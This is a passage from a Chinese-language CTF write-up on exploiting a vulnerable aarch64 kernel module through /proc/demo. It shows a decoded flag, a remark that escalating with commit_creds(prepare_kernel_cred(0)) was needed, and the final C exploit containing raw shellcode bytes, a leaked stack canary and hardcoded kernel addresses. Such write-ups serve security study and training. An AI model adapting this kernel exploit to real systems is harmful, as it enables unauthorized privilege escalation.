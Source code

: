 ```c
[    2.331484] x5 : 0000000000000000 x4 : 0000000000000000 x3 : 0000000000000000
[    2.331669] x2 : 0000000000000000 x1 : 0a7d67616c665f74 x0 : 7365747b4654432a
```

```python
a = ['7365747b4654432a','0a7d67616c665f74']
b = b''
for i in a:
    b += bytes.fromhex(i)[::-1]
print(b)
```

```c
➜  python3 test.py
b'*CTF{test_flag}\n'
```

比赛时我最开始没在shellcode中使用commit_creds(prepare_kernel_cred(0))，因为我认为内核的权限多高啊！应该不用提成root用户了，但是远程一直不成功。后来我发现本地因为调试所以一直是root用户...所以就尝试在内核中进行commit_creds进行提权，然后远程才成功。所以原来内核读文件这种操作还是会检查当然进程的用户。

### 最终exp

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(){
    char buf[0x100];
    char exp[0x200] = {0x00,0x00,0x80,0xd2,0xa1,0x02,0x00,0x58,0x20,0x00,0x3f,0xd6,
                       0xa1,0x02,0x00,0x58,0x20,0x00,0x3f,0xd6,0xa0,0x02,0x00,0x58,
                       0xe0,0x03,0x00,0xf9,0xe0,0x03,0x00,0x91,0x01,0x00,0x80,0xd2,
                       0x02,0x00,0x80,0xd2,0x45,0x02,0x00,0x58,0xa0,0x00,0x3f,0xd6,
                       0xe1,0x03,0x00,0x91,0x82,0x0c,0x80,0xd2,0x03,0x00,0x80,0xd2,
                       0xe5,0x01,0x00,0x58,0xa0,0x00,0x3f,0xd6,0xe0,0x07,0x40,0xa9,
                       0xe2,0x0f,0x41,0xa9,0xe4,0x17,0x42,0xa9,0xe6,0x1f,0x43,0xa9,
                       0x00,0x00,0x3f,0xd6,0xf8,0x24,0x0a,0x08,0x00,0x80,0xff,0xff,
                       0x58,0x22,0x0a,0x08,0x00,0x80,0xff,0xff,0x2f,0x66,0x6c,0x61,
                       0x67,0x00,0x00,0x00,0xe0,0x14,0x22,0x08,0x00,0x80,0xff,0xff,
                       0x28,0x3e,0x22,0x08,0x00,0x80,0xff,0xff};
    int f = open("/proc/demo",O_RDWR);
    read(f,buf,0x100);
    *(long long *)(exp+0x80) =  *(long long *)(buf+0x80);
    *(long long *)(exp+0x90)  = 0xffff80000884cc5c;
    *(long long *)(exp+0x1e8) = 0xffff800000e42388;
    *(long long *)(exp+0x1e0) = 1;                  
    *(long long *)(exp+0x1f0) = 0xffff800008030948;
    *(long long *)(exp+0xb0 ) = 0xffff800000e42388;
    write(f,exp,0x200);
}
```

使用[musl libc](https://musl.cc/#binaries)减小体积，下载aarch64的交叉编译版本[aarch64-linux-musl-cross.tgz](https://musl.cc/aarch64-linux-musl-cross.tgz)，然后直接编译即可：
